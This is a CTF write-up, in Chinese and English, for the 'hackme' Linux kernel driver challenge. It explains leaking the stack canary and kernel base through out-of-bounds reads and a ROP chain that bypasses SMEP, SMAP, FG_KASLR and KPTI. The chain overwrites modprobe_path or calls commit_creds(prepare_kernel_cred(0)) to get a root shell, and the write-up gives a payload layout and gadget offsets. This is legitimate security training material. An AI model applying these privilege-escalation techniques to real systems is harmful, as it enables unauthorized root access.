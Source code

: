 #### 漏洞
hackme.ko是一个简单的内核驱动，在其read()和write()函数中，针对栈上变量的读/写存在越界。
开启了SMEP, SMAP,FG_KASLR，KPTI等保护。

#### 利用
可通过越界读，leak内核地址信息和栈cookie，并计算其他gadget的地址信息，通过越界写进行ROP.

通过覆写modprobe_path达到代码执行的目的。

绕过KPTI有两种方法，使用第二种：

- 使用信号处理函数，signal(SIGSEGV, foo)
- 使用KPTI Trampoline
从内核态返回用户态时，需要设置CR3寄存器已恢复用户态页表，调用swapgs交换内核和用户态的GS寄存器，然后执行iretq指令将之前压栈的IP/CS/eflags/sp/ss等寄存器弹出，恢复用户态调用时的寄存器上下文。

#### 攻击payload布局
```

  |-------------------|
  |                   |
  | padding(16 uls)   |
  |                   |
  |-------------------|
  |    Canary         |
  |-------------------
  |     \x00          |		rbx
  |-------------------|		
  |     \x00          |		r12
  |-------------------|
  |     \x00          |		rbp
  |-------------------|
  |   ROP Gadget1     |		return address = pop rax;ret
  |-------------------|
  |  0x782f706d742f   | 	/tmp/x to replace modprobe_path
  |-------------------|
  |   ROP Gadget2     |		pop rbx ; pop r12 ; pop rbp ; ret;
  |-------------------|
  |modeprobe_path addr|
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------|
  |   ROP Gadget3     |		mov qword ptr [rbx], rax; pop rbx; pop rbp; ret;
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------|
  | kpti trampoline   |
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------| 
  |      foo          |		iretq stack layout should be:IP|CS|RFLAGS|RSP|SS
  |-------------------|
  |       CS          |
  |-------------------|
  |       RFLAGS      |
  |-------------------|
  |       RSP         |
  |-------------------|
  |       SS          |
  |-------------------|
```
#### use commit_creds(prepare_kernel_cred(0)) to getshell

Steps to achieve this goal:
1. Leak address information from kernel to get the stack canary, kernel image base and other relevant address.

Because FG_KASLR is enabled, we need to get address of commit_creds() and prepare_kernel_cred() from  __ksymtab_commit_creds and __ksymtab_prepare_kernel_cred.
3. Use the arbitray-address-read gadgets to read the content(offset value) at ksymtab_commit_creds, and calculate kernel's commit_creds() address (commit_creds = ksystab_commit_creds + (int)offset)
4. Use the arbitray-address-read gadgets to read the content(offset value) at ksymtab_prepare_kernel_cred, and calculate kernel's prepare_kernel_cred() address (prepare_kernel_cred = ksystab_prepare_kernel_cred + (int)offset)
5. build ROP chain to call prepare_kernel_cred(0) in kernelspace and return to userspace
6. build ROP chain to call commit_creds(return-value-of-prepare_kernel_cred(0)) and return to userspace
7. spawn a root shell when returning to userspace

**Gadgets that are used:**
- AAR
imagebase + 0x4d11 : pop rax; ret
imagebase + 0x4aae : mov eax, dword ptr[rax + 0x10]; pop rbp; ret

- Pass Parameter
imagebase + 0x38a0 : pop rdi; pop rbp; ret

#### Some writeups of this challenge

https://zhangyidong.top/2021/02/10/kernel_pwn(fg_kaslr)/

https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/
